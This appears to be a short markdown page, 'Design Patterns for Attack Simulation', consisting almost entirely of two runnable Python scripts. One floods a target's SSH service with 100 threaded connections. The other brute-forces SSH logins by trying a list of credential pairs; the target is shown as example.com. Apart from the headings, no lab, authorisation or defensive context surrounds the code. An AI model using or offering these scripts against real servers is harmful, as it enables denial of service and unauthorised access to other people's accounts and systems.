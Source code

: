 ### Design Patterns for Attack Simulation
#### SSH Connection Flooding
A simple flooding script using paramiko and threading:
```python
import paramiko
import threading

def ssh_flood(target, username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(target, username=username, password=password)
        print(f"Connected to {target}")
    except Exception as e:
        print(f"Failed: {e}")
    finally:
        ssh.close()

target = 'example.com'
username = 'user'
password = 'password'

threads = []
for i in range(100):
    t = threading.Thread(target=ssh_flood, args=(target, username, password))
    t.start()
    threads.append(t)

for t in threads:
    t.join()
```

#### Automated Credential Stuffing
Using a list of credentials to brute-force login:
```python
import paramiko
import threading

def credential_stuffing(target, username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(target, username=username, password=password)
        print(f"Login successful with {username}:{password}")
    except Exception as e:
        print(f"Login failed with {username}:{password} - {e}")
    finally:
        ssh.close()

target = 'example.com'
credentials = [('user1', 'password1'), ('user2', 'password2')]

threads = []
for uname, pwd in credentials:
    t = threading.Thread(target=credential_stuffing, args=(target, uname, pwd))
    t.start()
    threads.append(t)

for t in threads:
    t.join()
```
